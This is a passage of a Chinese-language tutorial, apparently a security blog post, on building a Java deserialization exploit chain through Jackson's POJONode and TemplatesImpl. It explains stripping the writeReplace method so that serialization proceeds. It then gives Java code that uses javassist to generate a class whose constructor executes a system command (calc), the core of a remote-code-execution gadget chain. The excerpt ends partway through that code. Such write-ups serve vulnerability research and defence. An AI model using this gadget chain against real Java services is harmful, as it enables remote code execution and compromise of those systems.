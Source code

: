 ### 利用链

我们的`POJONode`​是继承`ValueNode`​的 `ValueNode`​是继承`BaseJsonNode`​的

而在`BaseJsonNode`​中存在

```plain
Object writeReplace() {
        return NodeSerialization.from(this);
    }
```

意味着 我们在反序列化的时候 会经过这个writeReplace方法 这个方法会对我们的序列化过程进行检查 从而阻止我们的序列化进程 我们需要将其重写出来 将这个方法去掉

[![](assets/1701606625-0bb28de18917d5838e9f7be64c6a87bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153459-50c62996-82c0-1.png)

这样我们就可以进行序列化进程了

### TemplatesImpl链

```plain
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URI;
import java.security.*;
import java.util.Base64;

public class TemplatesImplChain {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        Templates templatesImpl = new TemplatesImpl();
```